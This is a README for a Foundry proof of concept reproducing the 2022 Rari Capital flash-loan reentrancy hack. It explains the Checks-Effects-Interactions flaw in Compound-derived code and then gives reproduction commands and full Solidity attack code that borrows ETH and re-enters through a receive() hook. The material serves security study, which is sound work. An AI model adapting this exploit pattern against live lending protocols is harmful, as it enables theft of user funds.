








This is a fork of [https://github.com/W2Ning/Rari_Fei_Vul_Poc](https://github.com/W2Ning/Rari_Fei_Vul_Poc) with the original author's authorization.

### Background story:
On April 30th 2022, Rari Capital suffered a flash loan reentry attack, causing a direct loss of about 80M USD, and it has been only one year since its 10M- fund stolen in 2021.

### It all starts with Compound

For the `Compound` protocol, its code does not follow [“Check-Effect-Interaction”](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) principle. A TLDR explanation of this principle is that your code should update the balance before transferring assets. For instance, in the repo here:

[https://github.com/compound-finance/compound-protocol/blob/ae4388e780a8d596d97619d9704a931a2752c2bc/contracts/CToken.sol#L786](https://github.com/compound-finance/compound-protocol/blob/ae4388e780a8d596d97619d9704a931a2752c2bc/contracts/CToken.sol#L786)

* In line 786, the code executes transfer-out first
* Then indexes the amount of borrow from the user




This logic works in most of the scenarios, yet if the borrowed token has certain hook functions, the code will be vulnerable to [Reentrancy Attack](https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/), and the hackers can utilize the loophole to do malicious operations before the indexing happens, which can cost great damage to the project.

But we cannot blame Compound too much: they have already made their own effort to avoid introducing non-compatible tokens onto their ecosystem, and the `Check-effect-interaction` pattern was not mature enough at the moment it developed.

Yet, projects forked from Compound did not really realize such risk, and multiple hacks happened from similar attacks:



* [Rekt — Cream Finance — REKT 2](https://rekt.news/cream-rekt-2/)
* [Rekt — Agave DAO, Hundred Finance — REKT](https://rekt.news/agave-hundred-rekt/)
* [Rekt — Voltage Finance — REKT](https://rekt.news/voltage-finance-rekt/)


### A New Gesture over Old Principle

It is good that Rari does not involve non-compatible tokens, but in its CEther contract, they introduced the same vulnerability by using call.value to transfer ETH.

[https://etherscan.io/address/0xd77e28a1b9a9cfe1fc2eee70e391c05d25853cbf#code](https://etherscan.io/address/0xd77e28a1b9a9cfe1fc2eee70e391c05d25853cbf#code)




Compared to previous hackers, who borrowed twice while leaving initial staking assets inside the pool and gaining `70% + 70% - 100% = 40%`, this time, the hacker borrows only once and took all of their initial staking back.



### The limitation of Nonreentrant

Nonreentrant can effectively reduce the risk of reentrancy for a SINGLE contract in a SINGLE transaction, but not everything else. For instance, even if both function a in contract A and function b in contract B are nonreentrant, hackers can still attack function b of contract B via function a of contract A.

To prevent this limitation, an effective revision is actually changing the sequence of code.

For instance, Cream Finance, which was hacked last October, when it updates its code, it follows the “Checks Effects Interactions” best practice by first updating the record, and then transferring the money out, as shown below:

[https://etherscan.io/address/0x28192abdb1d6079767ab3730051c7f9ded06fe46#code](https://etherscan.io/address/0x28192abdb1d6079767ab3730051c7f9ded06fe46#code
)




### Reproduce the hack: How-To

```
git clone https://github.com/W2Ning/Rari_Fei_Vul_Poc.git && cd Rari_Fei_Vul_Poc
```
and

```
forge test -vvv --fork-url $eth --fork-block-number 14684813
```



### core attacking code

```sol
    function test() public {
        // preparation 1: lookup how many ETH is available for borrow in fETH_127
        emit log_named_uint(
            "ETH Balance of fETH_127 before borrowing",
            address(fETH_127).balance / 1e18
        );

        // preparation 2: remove all the ETH from test forge address, this is for better test demonstration later
        payable(address(0)).transfer(address(this).balance);

        emit log_named_uint(
            "ETH Balance after sending to blackHole",
            address(this).balance
        );

        // step 1: borrow 15 million USDC via balancer flash loan
        // the attacker borrowed 150 million even though 15 million would be sufficient
        // there is no fee for balancer flash loan hence it does not matter if borrowing more
        address[] memory tokens = new address[](1);

        tokens[0] = address(usdc);

        uint256[] memory amounts = new uint256[](1);

        amounts[0] = 150000000 * 10**6;

        vault.flashLoan(address(this), tokens, amounts, "");
    }

    function receiveFlashLoan(
        IERC20[] memory tokens,
        uint256[] memory amounts,
        uint256[] memory feeAmounts,
        bytes memory userData
    ) external {
        // there will be warnings without below 4 declarations
        tokens;
        amounts;
        feeAmounts;
        userData;
        // check if we have borrowed 15 million USDC successfully

        uint256 usdc_balance = usdc.balanceOf(address(this));
        emit log_named_uint("Borrow USDC from balancer", usdc_balance);

        // step 2: call fusdc_127::mint() fuction, finish collateral operation

        usdc.approve(address(fusdc_127), type(uint256).max);

        fusdc_127.accrueInterest();

        fusdc_127.mint(15000000000000);

        uint256 fETH_Balance = fETH_127.balanceOf(address(this));

        emit log_named_uint("fETH Balance after minting", fETH_Balance);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after minting", usdc_balance);

        // step 3: call Unitroller::enterMarkets() function

        address[] memory ctokens = new address[](1);

        ctokens[0] = address(fusdc_127);

        rari_Comptroller.enterMarkets(ctokens);

        // step 4: call fETH_127::borrow() function to borrow 1977 ETH

        fETH_127.borrow(1977 ether);

        emit log_named_uint(
            "ETH Balance of fETH_127_Pool after borrowing",
            address(fETH_127).balance / 1e18
        );

        emit log_named_uint(
            "ETH Balance of me after borrowing",
            address(this).balance / 1e18
        );

        usdc_balance = usdc.balanceOf(address(this));

        fusdc_127.approve(address(fusdc_127), type(uint256).max);

        fusdc_127.redeemUnderlying(15000000000000);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after borrowing", usdc_balance);

        // step 5: return 15 million USDC back to balancer

        usdc.transfer(address(vault), usdc_balance);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after repayying", usdc_balance);
    }

    receive() external payable {
        rari_Comptroller.exitMarket(address(fusdc_127));
    }

```
